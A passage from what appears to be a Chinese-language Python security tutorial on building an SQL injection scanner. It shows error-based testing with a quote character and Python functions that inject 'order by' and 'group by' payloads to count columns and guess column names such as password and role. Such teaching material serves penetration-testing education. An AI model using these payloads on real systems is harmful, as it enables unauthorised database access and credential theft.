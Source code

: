 ![](img/00069.jpeg)

我们可以看到脚本检测到以下字符生成的 SQL 错误；单引号和括号。

我们可以检查浏览器以查看这些字符生成的错误。现在，在浏览器中，用`'`替换这个`1`并按*Enter*：

![](img/00070.jpeg)

我们可以看到当生成 SQL 错误时，我们可以操纵该查询。

让我们继续改进 SQL 注入脚本。

现在，打开脚本`SQLinjector-1.py`。你可以看到我们有两个新函数，`detect_columns`和`detect_columns_names`。

```py
def detect_columns(url):
  new_url= url.replace("FUZZ","admin' order by X-- -")
  y=1
  while y < 20:
    req=requests.get(new_url.replace("X",str(y)))
    if req.content.find("Unknown") == -1:
      y+=1
    else:
      break
  return str(y-1)

def detect_columns_names(url):
  column_names = ['username','user','name','pass','passwd','password','id','role','surname','address']
  new_url= url.replace("FUZZ","admin' group by X-- -")
  valid_cols = []
  for name in column_names:
    req=requests.get(new_url.replace("X",name))
    if req.content.find("Unknown") == -1:
      valid_cols.append(name)
```